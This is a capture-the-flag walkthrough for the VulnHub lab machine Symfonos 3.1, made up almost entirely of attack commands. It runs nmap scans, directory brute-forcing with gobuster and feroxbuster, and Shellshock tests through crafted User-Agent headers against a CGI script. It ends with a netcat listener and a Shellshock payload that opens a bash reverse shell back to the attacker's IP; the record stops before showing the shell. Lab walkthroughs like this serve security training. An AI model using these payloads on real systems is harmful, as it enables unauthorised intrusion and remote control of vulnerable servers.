









:::::::::::::: page
# Symfonos: 3.1 {#symfonos-3.1 .title}

\

## 

## Symfonos: 3.1

- **[Symfonos: 3.1]{style="color:#060f94;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/symfonos-31,332/>

- Now extract the file .
- Open ovf file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#f6d32d;"} :

- Find the machine IP :

::: codebox
    nmap -sn 10.19.212.0/24
:::

- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 10.19.212.43
:::

- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 10.19.212.43
:::

- 

::: codebox
    nmap -sC -sV -A 10.19.212.43
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 10.19.212.43
:::

1.  [Web Enumeration]{style="color:#f6d32d;"} :

- IP visit in browser : <http://10.19.212.43>

<!-- -->

- Run gobuster to find parameter :

::: codebox
    gobuster dir -u http://10.19.212.43 -w /usr/share/wordlists/dirb/common.txt
:::

- Visit the find parameter : <http://10.19.212.43/gate/>
  <http://10.19.212.43/cgi-bin/>

<!-- -->

- Now again find endpoints in /cgi-bin parameter :

::: codebox
    feroxbuster -u http://10.19.212.43/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
:::

- Visit the endpoints : <http://10.19.212.43/cgi-bin/underworld>

- Shellshock vulnerability check :

::: codebox
    curl -H 'User-Agent: () { :;}; echo; echo vulnerable' http://10.19.212.43/cgi-bin/underworld
:::

- Manual Command Execution :

::: codebox
    curl -H 'User-Agent: () { :;}; echo; /usr/bin/id' http://10.19.212.43/cgi-bin/underworld
:::

1.  [Reverse Shell]{style="color:#33d17a;"} :

- Listener :

::: codebox
    nc -lvnp 4444
:::

- Reverse Shell Payload :

::: codebox
    curl -H 'User-Agent: () { :;}; /bin/bash -c "bash -i >& /dev/tcp/10.19.212.4/4444 0>&1"' http://10.19.212.43/cgi-bin/underworld 
:::

- Get the shell :

::::::::::::::
